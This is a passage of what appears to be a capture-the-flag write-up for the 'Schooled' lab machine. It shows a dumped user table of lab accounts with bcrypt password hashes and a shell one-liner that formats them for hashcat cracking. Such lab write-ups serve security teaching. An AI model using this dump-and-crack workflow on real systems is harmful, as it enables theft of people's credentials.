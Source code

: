     | chard_ellzabeth89 | chard_elizabeth89@student.schooled.htb | $2y$10$D0Hu9XehYbTxNsf/uZrxXeRp/6pmT1/6A.Q2CZhbR26lCPtf68wUC |
    | morris_jake89     | morris_jake89@student.schooled.htb     | $2y$10$UieCKjut2IMiglWqRCkSzerF.8AnR8NtOLFmDUcQa90lair7LndRy |
    | heel_james89      | heel_james89@student.schooled.htb      | $2y$10$sjk.jJKsfnLG4r5rYytMge4sJWj4ZY8xeWRIrepPJ8oWlynRc9Eim |
    | nash_michael89    | nash_michael89@student.schooled.htb    | $2y$10$yShrS/zCD1Uoy0JMZPCDB.saWGsPUrPyQZ4eAS50jGZUp8zsqF8tu |
    | singh_rakesh89    | singh_rakesh89@student.schooled.htb    | $2y$10$Yd52KrjMGJwPUeDQRU7wNu6xjTMobTWq3eEzMWeA2KsfAPAcHSUPu |
    | taint_marcus89    | taint_marcus89@student.schooled.htb    | $2y$10$kFO4L15Elng2Z2R4cCkbdOHyh5rKwnG4csQ0gWUeu2bJGt4Mxswoa |
    | walls_shaun89     | walls_shaun89@student.schooled.htb     | $2y$10$EDXwQZ9Dp6UNHjAF.ZXY2uKV5NBjNBiLx/WnwHiQ87Dk90yZHf3ga |
    | smith_john89      | smith_john89@student.schooled.htb      | $2y$10$YRdwHxfstP0on0Yzd2jkNe/YE/9PDv/YC2aVtC97mz5RZnqsZ/5Em |
    | white_jack89      | white_jack89@student.schooled.htb      | $2y$10$PRy8LErZpSKT7YuSxlWntOWK/5LmSEPYLafDd13Nv36MxlT5yOZqK |
    | travis_carl89     | travis_carl89@student.schooled.htb     | $2y$10$VO/MiMUhZGoZmWiY7jQxz.Gu8xeThHXCczYB0nYsZr7J5PZ95gj9S |
    | mac_amy89         | mac_amy89@student.schooled.htb         | $2y$10$PgOU/KKquLGxowyzPCUsi.QRTUIrPETU7q1DEDv2Dt.xAjPlTGK3i |
    | james_boris89     | james_boris89@student.schooled.htb     | $2y$10$N4hGccQNNM9oWJOm2uy1LuN50EtVcba/1MgsQ9P/hcwErzAYUtzWq |
    | pierce_allan      | pierce_allan89@student.schooled.htb    | $2y$10$ia9fKz9.arKUUBbaGo2FM.b7n/QU1WDAFRafgD6j7uXtzQxLyR3Zy |
    | henry_william89   | henry_william89@student.schooled.htb   | $2y$10$qj67d57dL/XzjCgE0qD1i.ION66fK0TgwCFou9yT6jbR7pFRXHmIu |
    | harper_zoe89      | harper_zoe89@student.schooled.htb      | $2y$10$mnYTPvYjDwQtQuZ9etlFmeiuIqTiYxVYkmruFIh4rWFkC3V1Y0zPy |
    | wright_travis89   | wright_travis89@student.schooled.htb   | $2y$10$XFE/IKSMPg21lenhEfUoVemf4OrtLEL6w2kLIJdYceOOivRB7wnpm |
    | allen_matthew89   | allen_matthew89@student.schooled.htb   | $2y$10$kFYnbkwG.vqrorLlAz6hT.p0RqvBwZK2kiHT9v3SHGa8XTCKbwTZq |
    | sanders_wallis89  | sanders_wallis89@student.schooled.htb  | $2y$10$br9VzK6V17zJttyB8jK9Tub/1l2h7mgX1E3qcUbLL.GY.JtIBDG5u |
    | higgins_jane      | higgins_jane@staff.schooled.htb        | $2y$10$n9SrsMwmiU.egHN60RleAOauTK2XShvjsCS0tAR6m54hR1Bba6ni2 |
    | phillips_manuel   | phillips_manuel@staff.schooled.htb     | $2y$10$ZwxEs65Q0gO8rN8zpVGU2eYDvAoVmWYYEhHBPovIHr8HZGBvEYEYG |
    | carter_lianne     | carter_lianne@staff.schooled.htb       | $2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe |
    | parker_dan89      | parker_dan89@student.schooled.htb      | $2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi |
    | parker_tim89      | parker_tim89@student.schooled.htb      | $2y$10$YCYp8F91YdvY2QCg3Cl5r.jzYxMwkwEm/QBGYIs.apyeCeRD7OD6S |
    | 0xdf              | 0xdf@student.schooled.htb              | $2y$10$AmKUmB1aYnZKMrj/LoaYeefybrcq8mBU0JmEGKiXoDJtj0EFZBjza |
    +-------------------+----------------------------------------+--------------------------------------------------------------+
    28 rows in set (0.00 sec)
    

The admin username has an email address for jamie@staff.schooled.htb. I’ll use
some command line foo to get them into hashcat format:

    
    
    oxdf@parrot$ cat db_hashes | tr -d "|" | awk '{print $1":"$3}' | tee hashes
    guest:$2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2
    admin:$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
    bell_oliver89:$2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK
    orchid_sheila89:$2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC
    chard_ellzabeth89:$2y$10$D0Hu9XehYbTxNsf/uZrxXeRp/6pmT1/6A.Q2CZhbR26lCPtf68wUC
    morris_jake89:$2y$10$UieCKjut2IMiglWqRCkSzerF.8AnR8NtOLFmDUcQa90lair7LndRy
    heel_james89:$2y$10$sjk.jJKsfnLG4r5rYytMge4sJWj4ZY8xeWRIrepPJ8oWlynRc9Eim
    nash_michael89:$2y$10$yShrS/zCD1Uoy0JMZPCDB.saWGsPUrPyQZ4eAS50jGZUp8zsqF8tu
    singh_rakesh89:$2y$10$Yd52KrjMGJwPUeDQRU7wNu6xjTMobTWq3eEzMWeA2KsfAPAcHSUPu
    taint_marcus89:$2y$10$kFO4L15Elng2Z2R4cCkbdOHyh5rKwnG4csQ0gWUeu2bJGt4Mxswoa
    walls_shaun89:$2y$10$EDXwQZ9Dp6UNHjAF.ZXY2uKV5NBjNBiLx/WnwHiQ87Dk90yZHf3ga
    smith_john89:$2y$10$YRdwHxfstP0on0Yzd2jkNe/YE/9PDv/YC2aVtC97mz5RZnqsZ/5Em
    white_jack89:$2y$10$PRy8LErZpSKT7YuSxlWntOWK/5LmSEPYLafDd13Nv36MxlT5yOZqK
    travis_carl89:$2y$10$VO/MiMUhZGoZmWiY7jQxz.Gu8xeThHXCczYB0nYsZr7J5PZ95gj9S